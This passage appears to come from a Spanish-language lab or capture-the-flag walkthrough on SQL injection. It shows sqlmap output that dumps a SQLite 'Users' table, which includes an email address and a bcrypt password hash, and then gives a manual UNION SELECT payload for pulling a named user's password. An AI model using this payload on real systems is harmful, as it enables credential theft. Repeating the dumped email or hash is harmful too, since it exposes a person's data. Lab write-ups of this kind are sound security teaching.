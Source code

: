 ```zsh  
[02:55:05] [INFO] testing SQLite
[02:55:05] [INFO] confirming SQLite
[02:55:05] [INFO] actively fingerprinting SQLite
[02:55:05] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[02:55:05] [INFO] fetching columns for table 'Users' in database 'SQLite_masterdb'
[02:55:05] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[02:55:05] [WARNING] unable to retrieve column names for table 'Users' in database 'SQLite_masterdb'
[02:55:05] [INFO] fetching entries for table 'Users' in database 'SQLite_masterdb'
[02:55:06] [INFO] used SQL query returns 1 entry
Database: SQLite_masterdb
Table: Users
[1 entry]
+----+-----+-------+------+-------+------------------------+-------+--------+--------+--------+--------+--------+---------+---------+----------+--------------------------------------------------------------+----------+-----------+-----------+-----------+--------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+-------------------+--------------------+
| id | oid | rowid | name | key   | email                  | login | user   | int4   | full   | show   | long   | level   | group   | e-mail   | password                                                     | before   | e-posta   | version   | replace   | cvvnumber]   | adrese-mail   | e-postaadres   | adressee-mail   | e-posta_adres   | e-postaadresi   | e-posta_adresi   | adres_e-mailowy   | caroline-du-nord   |
+----+-----+-------+------+-------+------------------------+-------+--------+--------+--------+--------+--------+---------+---------+----------+--------------------------------------------------------------+----------+-----------+-----------+-----------+--------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+-------------------+--------------------+
| 1  | 1   | 1     | Gerh | key   | gerueda6@misena.edu.co | Gerh  | user   | int4   | full   | SHOW   | long   | level   | group   | e-mail   | $2a$10$Eer9AIio76EnSOfLNhkQIOZoYH45Y7CiYjvBrKcB4IVklhjkFsYe. | before   | e-posta   | version   | replace   | cvvnumber]   | adrese-mail   | e-postaadres   | adressee-mail   | e-posta_adres   | e-postaadresi   | e-posta_adresi   | adres_e-mailowy   | caroline-du-nord   |
+----+-----+-------+------+-------+------------------------+-------+--------+--------+--------+--------+--------+---------+---------+----------+--------------------------------------------------------------+----------+-----------+-----------+-----------+--------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+-------------------+--------------------+

[02:55:06] [INFO] table 'SQLite_masterdb.Users' dumped to CSV file '/root/.sqlmap/output/172.17.0.2/dump/SQLite_masterdb/Users.csv'
```  

Si en dado caso no queremos dar uso de la herramienta SQLMAP, podemos usar el siguiente payload:  

```SQL  
' UNION SELECT password,1 from Users where login='ElNombreDelUsuarioAConsultar' -- //
```  

<figure>
  <img src="https://hackingprofessional.github.io/Security/images/DAM5.1.png" width="40%" height="55%">
	<figcaption>
    <a href="https://hackingprofessional.github.io/Security/images/DAM5.1.png" title="Mostrando la contraseña del usuario Administrador">Mostrando la contraseña del usuario Administrador</a>.
  </figcaption>
</figure>
